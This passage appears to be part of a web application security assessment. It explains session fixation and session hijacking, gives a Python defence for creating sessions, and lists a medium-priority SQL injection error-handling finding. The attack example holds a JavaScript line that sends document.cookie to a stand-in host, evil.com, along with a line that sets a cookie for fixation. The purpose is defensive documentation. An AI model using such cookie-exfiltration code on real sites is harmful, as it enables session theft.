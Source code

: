 ### Attack 7: Session Management Attacks

**How the Attack Works:**
- Session fixation: Attacker sets user's session ID to known value
- Session hijacking: Attacker steals valid session tokens
- Inadequate session timeout allows prolonged unauthorized access

**Attack Techniques:**
```javascript
// Session fixation attempt
document.cookie = "JSESSIONID=ATTACKER_KNOWN_ID; path=/";

// Session theft via XSS
fetch('http://evil.com/steal?cookie=' + document.cookie);
```

**How We Defend Against It:**
```python
def create_secure_session(user_id: str) -> str:
    """Create secure session with proper management (SECURE)"""
    # Generate cryptographically secure session token
    session_token = secrets.token_urlsafe(32)
    
    # Store session with expiration
    session_data = {
        "user_id": user_id,
        "created_at": datetime.utcnow(),
        "expires_at": datetime.utcnow() + timedelta(hours=2),
        "ip_address": request.client.host
    }
    
    # Regenerate session ID after login (prevents fixation)
    if old_session_id in active_sessions:
        del active_sessions[old_session_id]
    
    active_sessions[session_token] = session_data
    return session_token
```

---

## Vulnerability Breakdown by Severity

### 🔴 HIGH PRIORITY (0 issues - No new issues)

### 🟡 MEDIUM PRIORITY (2 issues - Fix within 1 week)

#### 1. SQL Injection Error Handling
- **Finding:** 9 SQL injection payloads cause 500 server errors
- **Endpoint:** `/api/user/{username}/salts`
- **Impact:** Information disclosure through error messages
- **Recommendation:** Implement standardized error responses
